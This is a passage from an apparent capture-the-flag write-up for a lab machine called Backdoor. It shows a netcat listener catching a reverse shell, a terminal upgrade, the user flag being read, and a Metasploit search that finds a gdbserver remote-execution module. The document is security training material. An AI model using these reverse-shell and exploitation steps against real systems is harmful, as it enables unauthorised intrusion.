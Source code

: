 

    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.125 46586
    id
    uid=1000(user) gid=1000(user) groups=1000(user)



I'll do a shell upgrade with `script`:



    script /dev/null -c bash
    Script started, file is /dev/null
    user@Backdoor:/home/user$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo ; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    user@Backdoor:/home/user$



I'm told that there may be issues running `gdb` with a different version
than the server. I didn't have any issues, but in this case my VM and
the target are both Ubuntu 20.04. If you have issues from Kali or
Parrot, that may be the problem.

I can also grab `user.txt`:



    user@Backdoor:/home/user$ cat user.txt
    0d183e76************************



#### With MSF

The simpler way to exploit this is using Metasploit. I'll start
`msfconsole`, and find the exploit:



    oxdf@hacky$ msfconsole 
    ...[snip]...
    msf6 > search gdb

    Matching Modules
    ================

       #  Name                                            Disclosure Date  Rank       Check  Description
       -  ----                                            ---------------  ----       -----  -----------
       0  exploit/multi/gdb/gdb_server_exec               2014-08-24       great      No     GDB Server Remote Payload Execution
       1  exploit/linux/local/ptrace_sudo_token_priv_esc  2019-03-24       excellent  Yes    ptrace Sudo Token Privilege Escalation
